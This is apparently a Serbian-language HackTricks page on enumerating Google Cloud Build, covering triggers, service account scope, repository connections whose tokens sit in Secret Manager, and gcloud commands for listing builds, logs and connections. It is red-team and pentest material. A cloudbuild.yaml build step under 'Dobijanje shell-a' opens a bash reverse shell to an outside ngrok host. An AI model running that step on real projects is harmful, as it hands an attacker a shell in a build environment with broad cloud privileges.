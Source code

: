 # GCP - Cloud Build Enum

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

Google Cloud Build je upravljana CI/CD platforma koja **automatizuje procese izgradnje softvera** i puštanja u rad, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava programerima da automatski izgrade, testiraju i implementiraju kod dok pruža fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build okidač je **povezan sa Cloud repozitorijumom ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

{% hint style="success" %}
Nisam mogao da vidim način da ukradem Github/Bitbucket token odavde ili iz Cloud repozitorijuma jer kada se repozitorijum preuzme, pristupa se preko [https://source.cloud.google.com/](https://source.cloud.google.com/) URL-a i Github nije pristupačan klijentu.
{% endhint %}

### Događaji

Cloud Build može biti okidač ako:

* **Pritisak na granu**: Navedite granu
* **Pritisak novog taga**: Navedite tag
* **Zahtev za povlačenje**: Navedite granu koja prima PR
* **Ručno pozivanje**
* **Pub/Sub poruka**: Navedite temu
* **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan tajnom

### Izvršenje

Postoje 3 opcije:

* Yaml/json **specifikacija komandi** za izvršenje. Obično: `/cloudbuild.yaml`
* Jedna koja se može specificirati "inline" u web konzoli i u CLI
* Najčešća opcija
* Relevantna za neautentifikovan pristup
* **Dockerfile** za izgradnju
* **Buildpack** za izgradnju

### Dozvole SA

**Servisni nalog ima opseg `cloud-platform`**, tako da može **koristiti sve privilegije.** Ako **nije specificiran SA** (kao kada se podnosi), **podrazumevani SA** `<projekat-broj>@cloudbuild.gserviceaccount.com` će biti **korišćen.**

Podrazumevano nisu date nikakve dozvole, ali je prilično lako dati neke:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Odobrenja

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršenje izgradnje** (podrazumevano onemogućeno).

### Povezivanja & Repozitorijumi

Povezivanja se mogu kreirati preko:

* **GitHub-a**: Prikazaće se OAuth prozor koji traži dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Menadžera tajni.**
* **GitHub Enterprise-a**: Tražiće instalaciju **GithubApp**-a. Autentifikacioni token sa vašeg GitHub Enterprise hosta će biti kreiran i sačuvan u ovom projektu kao tajna **Menadžera tajni.**
* **GitLab-a / Enterprise-a**: Potrebno je **pružiti API pristupni token i čitanje API pristupnog tokena** koji će biti sačuvani u **Menadžeru tajni.**

Kada se generiše veza, možete je koristiti da **povežete repozitorijume kojima Github nalog ima pristup**.

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Imajte na umu da su repozitorijumi povezani ovom metodom **dostupni samo u okidačima koji koriste 2. generaciju.**
{% endhint %}

### Poveži repozitorijum

Ovo nije isto kao **`povezivanje`**. Ovo omogućava **različite** načine za **pristup Github ili Bitbucket** repozitorijumu ali **ne generiše objekat povezivanja, već generiše objekat repozitorijuma (prve generacije).**

Ova opcija je dostupna preko dugmeta:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Skladištenje

Ponekad će Cloud Build **generisati novo skladište za čuvanje datoteka za okidač**. To se na primer dešava u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je skladišni bucket pod nazivom [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) kako bi se čuvala `.tgz` datoteka sa fajlovima koji će biti korišćeni.

### Dobijanje shell-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeracija

Možete pronaći **osetljive informacije u konfiguracijama izgradnje i zapisnicima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Neautentifikovan pristup

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Post eksploatacija

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
